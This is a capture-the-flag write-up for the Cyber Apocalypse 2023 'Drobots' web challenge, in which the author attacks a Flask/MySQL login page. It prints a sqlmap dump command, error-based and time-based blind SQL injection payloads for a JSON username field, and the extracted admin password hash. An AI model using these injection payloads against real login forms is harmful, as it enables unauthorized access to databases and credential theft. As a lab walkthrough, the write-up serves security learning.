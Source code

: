 ```yaml
---
layout: load_md
title: The White Circle | Cyber Apocalypse 2023 | Drobots Writeup
desc: "The White Circle is a community for Cyber/Information Security students, enthusiasts and professionals. You can discuss anything related to Security, share your knowledge with others, get help when you need it and proceed further in your journey with amazing people from all over the world."
image: images/twc_og_banner.jpg
ctf: Cyber Apocalypse 2023
parent: cyber_apocalypse_2023
category: web
challenge: Drobots
tags: "web, legend, flask, sql, sqli, sqlmap"
date: 2023-03-27T00:00:00+00:00
last_update: 2023-03-27T00:00:00+00:00
---
```


<h1 class="heading card-title white-text">Cyber Apocalypse 2023</h1>

## Drobots
> Solved by Legend

Challenge description 


> Pandora's latest mission as part of her reconnaissance training is to infiltrate the Drobots firm that was suspected of engaging in illegal activities. Can you help pandora with this task?

In this challenge the website is showing a login page.

![](https://i.imgur.com/uxHR1gT.png)


Since no other info was there or in the source code of the page I checked the docker config file.

The website is a `Flask` application running on `MySQL` so I thought of SQL Injection cand be done. Here I found interesting thing that in `config.py` file they have provided the database information.

![](https://i.imgur.com/07ijody.png)


Also in the `database.py` also they have given the hint that the input is not sanitized. 
The logic of the database is that we need the `token` of the password to login. So if we can find the token we can login.

![](https://i.imgur.com/hO6kBee.png)


Then I saved the login request and gave it to `sqlmap` though which I was able to extract the details.


    sqlmap -r ./req --dbms=mysql -D drobots -T users --dump


    ---
    Parameter: JSON username ((custom) POST)
        Type: error-based
        Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
        Payload: {"username":"a"="a" AND (SELECT 5866 FROM(SELECT COUNT(*),CONCAT(0x7162717071,(SELECT (ELT(5866=5866,1))),0x716a767871,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a) AND "a"="a","password":"a"}
    
        Type: time-based blind
        Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
        Payload: {"username":"a"="a" AND (SELECT 4022 FROM (SELECT(SLEEP(5)))iMan) AND "a"="a","password":"a"}
    ---


    +----+----------------------------------+----------+
    | id | password                         | username |
    +----+----------------------------------+----------+
    | 1  | 67772d6e54bc393a6f67e16bac3f83da | admin    |
    +----+----------------------------------+----------+

Once logged in we get the flag.

![](https://i.imgur.com/4S5t7zw.png)


